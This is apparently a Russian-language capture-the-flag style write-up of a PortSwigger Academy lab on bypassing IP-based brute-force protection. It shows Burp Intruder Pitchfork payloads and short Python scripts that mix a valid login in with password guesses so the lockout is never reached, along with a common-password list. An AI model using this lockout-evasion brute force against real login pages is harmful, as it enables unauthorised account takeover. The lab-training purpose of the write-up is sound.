 ```yaml
---
title: "Broken brute-force protection, IP block"
date: 2025-10-02
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/password-based-vulnerabilities/authentication/password-based/lab-broken-bruteforce-protection-ip-block"
classes: wide
---
```


Для решения лабы нужно подобрать пароль учетки `carlos`. Для входа даны креды от другой учетной записи `wiener`:`peter`.

```
https://0acf002004444315819e8bac00de00b3.web-security-academy.net/
```

## Solution

Для начала зайду в ЛК, чтобы собрать `HTTP`-запрос для логина.

```http
POST /login HTTP/2
Host: 0acf002004444315819e8bac00de00b3.web-security-academy.net
Cookie: session=ogPofwrZEKbNt7g7PxHC52TnAaOEEabb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0acf002004444315819e8bac00de00b3.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0acf002004444315819e8bac00de00b3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```

Попробую перебрать пароли из [списка](https://portswigger.net/web-security/authentication/auth-lab-passwords). На этот раз сразу буду делать через `Burp Intruder`. 

```http
POST /login HTTP/2
Host: 0acf002004444315819e8bac00de00b3.web-security-academy.net

username=carlos&password=§passwd§
```

Начав атаку, я словил блокировку. Она появилась после четырех неверных попыток. Попробую чередовать перебор пароля и корректные данные каждую третью попытку.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/1.png){: height="200" .align-center}

Для этого нужно сгенерить следующий список логинов:

```
wiener
carlos
carlos
...
```

А каждый четвертый пароль должен быть `peter`. Напишу программу на `python`:

```python
for _ in range(50):
	print('wiener\ncarlos\ncarlos')
```

```
wiener
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
...
```

Сохраню пароли в файл `passwds`. Далее сгенерю новый список:

```python
with open('passwds', 'r') as f:
    lines = f.readlines()
    for i, line in enumerate(lines):
        if (i % 2 == 0):
            print('peter')
        print(line, end='')

```

Получился следующий список:

```
peter
123456
password
peter
12345678
qwerty
peter
123456789
12345
peter
1234
111111
peter
1234567
dragon
peter
123123
baseball
peter
abc123
football
peter
...
```

Теперь составлю атаку в `Intruder` типа `Pitchfork`. Пейлоад:

```http
POST /login HTTP/2
Host: 0acf002004444315819e8bac00de00b3.web-security-academy.net

username=§login§&password=§passwd§
```

В качестве 1-го списка вставлю логины. В качестве 2-го - пароли. Также нужно выставить один рабочий поток в `Resource Pool`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/2.png){: height="200" .align-center}

Далее запущу атаку. Чтобы получить правильный пароль, отфильтрую ответы по строке `carlos` и `Status code`, равному `3xx`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/3.png){: height="200" .align-center}

Зайду в ЛК:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/4.png){: height="200" .align-center}